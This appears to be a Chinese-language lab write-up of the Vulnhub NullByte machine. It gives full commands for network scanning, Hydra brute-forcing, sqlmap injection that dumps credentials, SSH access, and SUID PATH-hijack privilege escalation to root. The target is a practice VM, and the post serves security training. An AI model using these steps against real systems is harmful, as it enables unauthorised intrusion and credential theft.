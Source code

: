 ```yaml
---
title: 靶机渗透实战基础-Vulnhub-NullByte
date: 2024-01-19 18:47:31
tags: 渗透测试
mathjax: true
---
```


# 靶机渗透实战基础-Vulnhub-NullByte

## 主机发现&端口扫描

emm...没给IP，得自己扫：

```bash
sudo arp-scan -l
```

或另一种方法：

```bash
nmap -sn 192.168.2.0/24
```

再或另一种方法：

```bash
sudo netdiscover -i wlan0 -r 192.168.2.0/24
```

发现NullByte主机IP为192.168.2.183。

分别探测该主机TCP和UDP端口服务：

```bash
nmap --min-rate 10000 -sT -p- 192.168.2.183
sudo nmap --min-rate 10000 -sU -p- 192.168.2.183
```

结果分别如下：

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
777/tcp   open  multiling-http
58567/tcp open  unknown

PORT      STATE SERVICE
111/udp   open  rpcbind
5353/udp  open  zeroconf
49569/udp open  unknown
MAC Address: 08:00:27:0E:35:55 (Oracle VirtualBox virtual NIC)
```

分别对每个端口进行详细探测，包括版本、操作系统、默认脚本探测等：

```bash
sudo nmap -sT -sC -sV -O -p 80,111,777,42049 192.168.2.183
```

扫描结果：

```
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Apache httpd 2.4.10 ((Debian))
|_http-title: Null Byte 00 - level 1
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open   rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37605/udp6  status
|   100024  1          39862/tcp6  status
|   100024  1          49569/udp   status
|_  100024  1          58567/tcp   status
777/tcp   open   ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (ED25519)
42049/tcp closed unknown
MAC Address: 08:00:27:0E:35:55 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80有Apache；111为rpc端口，有rpcbind漏洞；777为SSH；42049也为rpc端口。

## 漏洞发现

### 80端口

访问，只有一张图片和一句话“If you search for the laws of harmony, you will find knowledge.”，源码也没有可用信息。

爆目录，将请求为200、301、302、403、401的文件写入result.txt：

```bash
feroxbuster -u http://192.168.2.183/ -s 200,301,302,403,401 -o result.txt
```

用以下命令查看200、301的结果：

```bash
cat result.txt | awk {'print $1,$6'} | grep 200
cat result.txt | awk {'print $1,$6'} | grep 301
```

（Rust写的feroxbuster就是6,把电脑给我干红温了...

结果发现可能有phpmyadmin后台，摸一下，初始密码登不上。

## 隐写

把主页图片下载下来看元数据：

```bash
wget http://192.168.2.183:80/main.gif
exiftool main.gif
```

找到注释：kzMb5nVYJw，不知道干啥的，不是phpmyadmin，也不是ssh。

## 正解

想不到，访问：http://192.168.2.183/kzMb5nVYJw/

然后Burpsuite抓包，保存请求包到文件123.txt，直接喂给sqlmap：

```bash
sqlmap -r 123.txt --random-agent --level 3
```

没找到合适注入点。

利用Hydra爆，指定为POST方法，用户名随便指定：

```bash
hydra 192.168.2.183 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l admin -P /usr/share/wordlists/rockyou.txt
```

爆出来密码elite。登录后要求输入用户名，盲猜root，提示Fetched data successfully，可能存在SQL注入。GET传参，直接把URL喂给sqlmap：

```bash
sqlmap -u http://192.168.2.183/kzMb5nVYJw/420search.php?usrtosearch=root
```

发现usrtosearch注入点，找flag：

```bash
sqlmap -u http://192.168.2.183/kzMb5nVYJw/420search.php?usrtosearch=root --dbs
sqlmap -u http://192.168.2.183/kzMb5nVYJw/420search.php?usrtosearch=root -D seth --tables
sqlmap -u http://192.168.2.183/kzMb5nVYJw/420search.php?usrtosearch=root -D seth -T users --dump
```

得到密码：YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE

用basecrack解码为：c6d6bd7ebf806f43c76acc3681703b81

来这里解密：http://somd5.com/，解密后为omega。

看到该条数据的user列为ramses，尝试ssh连接：

```bash
ssh ramses@192.168.2.183 -p 777
```

成功连接！

## 提权

找带有SUID位的文件：

```bash
find / -perm -u=s -type f 2>/dev/null 
```

尝试利用/var/www/backup/procwatch提权，procwatch会执行ps命令来查看进程，于是在相同目录下建立/bin/sh的软连接，并将该目录添加到环境变量最前面即可。

```bash
cd /var/www/backup
ln -s /bin/sh ps
export PATH=.:$PATH
./procwatch
```

进入root，可在/root/proof.txt找到ssh密钥。
